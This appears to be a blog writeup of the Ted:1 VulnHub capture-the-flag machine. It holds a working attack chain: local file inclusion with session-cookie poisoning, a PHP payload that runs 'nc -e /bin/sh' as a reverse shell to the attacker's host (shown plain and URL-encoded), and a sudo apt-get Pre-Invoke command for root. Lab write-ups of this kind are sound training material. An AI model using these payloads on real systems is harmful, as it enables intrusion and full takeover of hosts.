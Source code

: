 ```yaml
---
layout: post
title:  "Ted:1 Vulnhub Writeup"
date:   2020-09-24 15:00:00 +0530
categories: VulnHub CTF
---
```

Ted:1 is a machine in which I used Local File Inclusion Vulnerability to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always I started scanning with nmap

```
nmap -sV -sC 192.168.198.136
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 09:58 EDT
Nmap scan report for 192.168.198.136
Host is up (0.00077s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds

```
Port 80 is the only opened port.
## Web Enumeration
Then I enumerated directories and files using gobuster

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.136 -x html,php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php
[+] Timeout:        10s
===============================================================
2020/09/24 09:58:18 Starting gobuster
===============================================================
/index.php (Status: 200)
/home.php (Status: 302)
/logout.php (Status: 302)
/cookie.php (Status: 302)
/authenticate.php (Status: 302)
/server-status (Status: 403)
===============================================================
2020/09/24 09:59:06 Finished
===============================================================
```
An intersting file is cookie.php , although it didn't help me to get a shell but it gave me a hint about using cookie with LFI to gain a shell.
## Brute forcing
I found a login form in index.php, So I tried SQLmap to test for SQL injection but the form isn't vulnerable to it. 
Then, I started testing with inputs and error messages and it was fruitful. The error messages gave me hints about the the correct username and correct password then the correct hashing algorithm. You can see the diffrence below.

### Username guessing 
![Username](/assets/machines/vulnhub/ted/1.png)

### Password guessing 
![Password](/assets/machines/vulnhub/ted/2.png)

### Hashing Algorithm guessing
![Hash](/assets/machines/vulnhub/ted/3.png)

The correct username is admin and the correct password is hash sha256 of word admin


## Local File Inclusion
When I typed /etc/passwd it retrived the conent of the file, so it's clearly a LFI vulnerability. 
![Hash](/assets/machines/vulnhub/ted/4.png)



After many attemps like reading /etc/shadow and Log poisoning via apache logs, I found a suspicous cookie. so I tried to change it's value and access /var/lib/php/sessions/sess_ via the browser and it worked !
![Hash](/assets/machines/vulnhub/ted/5.png)

Immediately  I changed the cookie value to 

```
<?php system("nc [ip] 9999 -e /bin/sh")?>
```

but Url encoded as 
```
%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%39%39%39%39%20%5b%69%70%5d%20%2d%65%20%2f%62%69%6e%2f%73%68%22%29%3f%3e
```
and started listening in my machine and refreshed the page. I got a shell!
```
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.198.137] from (UNKNOWN) [192.168.198.136] 57674
whoami
www-data
```

## Privilege Escalation
I ran sudo -l and noticed that I can run apt-get as a root without password (SUDO).

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

```

So imediatly I went to https://gtfobins.github.io/ and got the following command
which abuses the sudo priv given to the binary apt-get 

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
root
```
and voila here is the root privilege!




